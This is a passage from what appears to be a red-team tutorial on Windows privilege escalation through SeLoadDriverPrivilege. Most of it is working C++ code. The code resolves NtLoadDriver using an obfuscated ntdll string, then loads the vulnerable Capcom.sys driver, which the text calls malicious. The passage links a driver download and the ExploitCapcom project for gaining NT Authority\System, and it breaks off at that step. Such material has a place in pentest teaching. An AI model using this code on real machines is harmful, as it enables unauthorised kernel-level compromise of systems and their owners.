 ```cpp
    {
        printf("AdjustTokenPrivileges error: %x", GetLastError());
        return FALSE;
    }

    //system("cmd");
    // below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
    std::cout << "[+] Set Registry Keys" << std::endl;
    NTSTATUS st1;
    UNICODE_STRING pPath;
    UNICODE_STRING pPathReg;
    PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
    PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\SomeService";
    const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
    HMODULE hObsolete = GetModuleHandleA(NTDLL);
    *(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
    *(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
    *(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

    RtlInitUnicodeString(&pPath, pPathSource);
    RtlInitUnicodeString(&pPathReg, pPathSourceReg);
    st1 = NtLoadDriver(&pPathReg);
    std::cout << "[+] value of st1: " << st1 << "\n";
    if (st1 == ERROR_SUCCESS) {
        std::cout << "[+] Driver Loaded as Kernel..\n";
        std::cout << "[+] Press [ENTER] to unload driver\n";
    }

    getchar();
    st1 = NtUnloadDriver(&pPathReg);
    if (st1 == ERROR_SUCCESS) {
        std::cout << "[+] Driver unloaded from Kernel..\n";
        std::cout << "[+] Press [ENTER] to exit\n";
        getchar();
    }

    return 0;
}
```
{% endcode %}

Once the above code is compiled and executed, we can see that our malicious `Capcom.sys` driver gets loaded onto the victim system:

![](../../.gitbook/assets/screenshot-from-2018-12-17-22-14-26%20%281%29.png)

{% file src="../../.gitbook/assets/capcom.sys" caption="Capcom.sys" %}

We can now download and compile the Capcom exploit from [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom) and execute it on the system to elevate our privileges to `NT Authority\System`:
